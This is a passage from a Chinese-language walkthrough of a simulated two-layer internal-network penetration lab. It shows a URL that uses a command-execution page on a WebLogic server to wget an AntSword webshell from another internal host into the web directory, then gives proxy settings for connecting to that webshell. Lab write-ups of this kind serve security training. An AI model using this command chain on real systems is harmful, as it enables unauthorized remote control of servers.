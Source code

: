 ![32.png](%E5%8F%8C%E5%B1%82%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F%E8%99%9A%E6%8B%9F%E4%BB%BF%E7%9C%9F%E5%AE%9E%E6%88%98.assets/headImg.actionguideImg=fcec9f5e-982c-4f1a-9ea5-01ed47cfe900.png)

##### 7.3.2 通过命令执行下载蚁剑Webshell

通过命令执行下载我们放在Tomcat服务器上的ant.txt文件到Weblogic网站目录：

```
http://172.22.0.20:7001/bea\_wls\_internal/demo.jsp?pwd=admin&cmd=wget http://172.22.0.10:8080/ant/ant.txt -O servers/AdminServer/tmp/\_WL\_internal/bea\_wls\_internal/9j4dqk/war/ant.jsp

```

蚁剑Webshell地址：http://172.22.0.20:7001/bea\_wls\_internal/ant.jsp

##### 7.3.3 蚁剑连接Webshell

打开一个新的蚁剑窗口并配置`socks5`代理，找到 `AntSword > 代理设置 > 手动设置代理 > 选择socks5代理协议 > 填写代理服务器IP > 填写代理服务端口 > 保存`。注意，保存时会提示重启中国蚁剑。

![33.png](%E5%8F%8C%E5%B1%82%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F%E8%99%9A%E6%8B%9F%E4%BB%BF%E7%9C%9F%E5%AE%9E%E6%88%98.assets/headImg.actionguideImg=fd7fae64-ccf7-4389-910e-6cb4c40fcd39.png)
